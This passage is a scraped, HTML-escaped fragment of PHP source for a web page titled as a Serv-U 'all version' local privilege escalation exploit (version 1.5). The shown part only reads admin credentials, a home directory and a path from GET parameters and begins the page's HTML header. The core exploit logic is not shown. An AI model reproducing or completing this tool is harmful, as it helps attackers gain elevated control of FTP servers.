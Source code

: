       <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminuser&nbsp;=&nbsp;$_GET['<span>adminuser</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminpass&nbsp;=&nbsp;$_GET['</span><span>adminpass</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$user&nbsp;=&nbsp;$_GET['<span>user</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$password&nbsp;=&nbsp;$_GET['</span><span>password</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$homedir&nbsp;=&nbsp;$_GET['<span>homedir</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;($_GET['</span><span>dir</span><span class="string">']){&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$dir&nbsp;=&nbsp;$_GET['<span>dir</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">}</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">?></span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><!&#8211;&nbsp;主文件开始&nbsp;//&#8211;></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><html></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><head></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><title>-=<Serv-U&nbsp;All&nbsp;Version本地提升权限Exp10it&nbsp;Ver&nbsp;1.5>=-</title></span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string"><meta&nbsp;content="text/html;&nbsp;charset=gb2312"&nbsp;http-equiv="Content-Type"></span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string"><STYLE&nbsp;TYPE="text/css"></span>&nbsp;</span>
    </li>
    <li class="">